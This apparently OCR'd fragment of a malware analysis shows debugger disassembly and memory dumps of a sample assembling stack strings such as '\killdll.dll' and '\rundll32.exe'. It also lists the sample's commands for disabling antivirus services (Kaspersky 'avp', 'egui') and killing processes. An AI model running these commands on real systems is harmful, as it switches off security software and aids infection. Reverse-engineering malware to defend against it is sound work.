    "cmd /c sc config eguistart= disabled"
   "cmd.exe /c taskkill.exe /im ")

   "cmd /c sc config avp start= disabled"
   "cmd.exe /c taskkill.exe /im "

  00402259    C685 F0FDFFFF 2>mov     byte ptr [ebp-210], 20
  00402260    C685 F1FDFFFF 7>mov     byte ptr [ebp-20F], 74
  00402267    C685 F2FDFFFF 6>mov     byte ptr [ebp-20E], 65
  0040226E    C685 F3FDFFFF 7>mov     byte ptr [ebp-20D], 73
  00402275    C685 F4FDFFFF 7>mov     byte ptr [ebp-20C], 74
  0040227C    C685 F5FDFFFF 6>mov     byte ptr [ebp-20B], 61
  00402283    C685 F6FDFFFF 6>mov     byte ptr [ebp-20A], 6C
  0040228A    C685 F7FDFFFF 6>mov     byte ptr [ebp-209], 6C
  00402291    C685 F8FDFFFF 0>mov     byte ptr [ebp-208], 0

  0012FDB0  20 74 65 73 74 61 6C 6C 00 E7 1D E1 00 00 00 00   testall.??...
  0012FDC0  38 00 00 00 23 00 00 00 23 00 00 00 38 07 93 7C  8...#...#...8
  0012FDD0  FF FF FF FF 00 E0 FD 7F AB 06 93 7C EB 06 93 7C  .帻??
  0012FDE0  F0 20 40 00 00 00 00 00 67 08 81 7C 1B 00 00 00  ?@.....g...

  00402298    C685 D8FAFFFF 5>mov     byte ptr [ebp-528], 5C
  0040229F    C685 D9FAFFFF 6>mov     byte ptr [ebp-527], 6B
  004022A6    C685 DAFAFFFF 6>mov     byte ptr [ebp-526], 69
  004022AD    C685 DBFAFFFF 6>mov     byte ptr [ebp-525], 6C
  004022B4    C685 DCFAFFFF 6>mov     byte ptr [ebp-524], 6C
  004022BB    C685 DDFAFFFF 6>mov     byte ptr [ebp-523], 64
  004022C2    C685 DEFAFFFF 6>mov     byte ptr [ebp-522], 6C
  004022C9    C685 DFFAFFFF 6>mov     byte ptr [ebp-521], 6C
  004022D0    C685 E0FAFFFF 2>mov     byte ptr [ebp-520], 2E
  004022D7    C685 E1FAFFFF 6>mov     byte ptr [ebp-51F], 64
  004022DE    C685 E2FAFFFF 6>mov     byte ptr [ebp-51E], 6C
  004022E5    C685 E3FAFFFF 6>mov     byte ptr [ebp-51D], 6C
  004022EC    C685 E4FAFFFF 0>mov     byte ptr [ebp-51C], 0

  0012FA98  5C 6B 69 6C 6C 64 6C 6C 2E 64 6C 6C 00 00 00 00  \killdll.dll....

  004022F3    C685 B0F9FFFF 5>mov     byte ptr [ebp-650], 5C
  004022FA    C685 B1F9FFFF 7>mov     byte ptr [ebp-64F], 72
  00402301    C685 B2F9FFFF 7>mov     byte ptr [ebp-64E], 75
  00402308    C685 B3F9FFFF 6>mov     byte ptr [ebp-64D], 6E
  0040230F    C685 B4F9FFFF 6>mov     byte ptr [ebp-64C], 64
  00402316    C685 B5F9FFFF 6>mov     byte ptr [ebp-64B], 6C
  0040231D    C685 B6F9FFFF 6>mov     byte ptr [ebp-64A], 6C
  00402324    C685 B7F9FFFF 3>mov     byte ptr [ebp-649], 33
  0040232B    C685 B8F9FFFF 3>mov     byte ptr [ebp-648], 32
  00402332    C685 B9F9FFFF 2>mov     byte ptr [ebp-647], 2E
  00402339    C685 BAF9FFFF 6>mov     byte ptr [ebp-646], 65
  00402340    C685 BBF9FFFF 7>mov     byte ptr [ebp-645], 78
  00402347    C685 BCF9FFFF 6>mov     byte ptr [ebp-644], 65
  0040234E    C685 BDF9FFFF 2>mov     byte ptr [ebp-643], 20
  00402355    C685 BEF9FFFF 0>mov     byte ptr [ebp-642], 0

  0012F970  5C 72 75 6E 64 6C 6C 33 32 2E 65 78 65 20 00 77  \rundll32.exe .w
